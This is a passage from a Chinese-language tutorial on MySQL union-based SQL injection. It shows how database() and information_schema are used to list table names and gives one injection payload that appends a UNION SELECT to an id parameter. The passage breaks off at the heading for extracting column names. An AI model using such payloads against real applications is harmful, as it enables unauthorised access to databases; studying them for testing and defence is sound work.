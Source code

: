 ![image](images/40DDE1519F26419E9DAE307968499B4Fclipboard.png)


==也可以通过database()获取数据库名==

![image](images/03C5FF65737D42F0BDBB82A00B80CB18clipboard.png)

### 提取表名

在MySQL中，表名存放在information_schema数据库中的tables表table_name字段中

![image](images/45DC661B08934E6DBC68221BEF7F7048clipboard.png)

```sql
id=1 union select table_name,null,null from information_schema.tables where table_schema='ichunqiu'
```

### 提取字段名
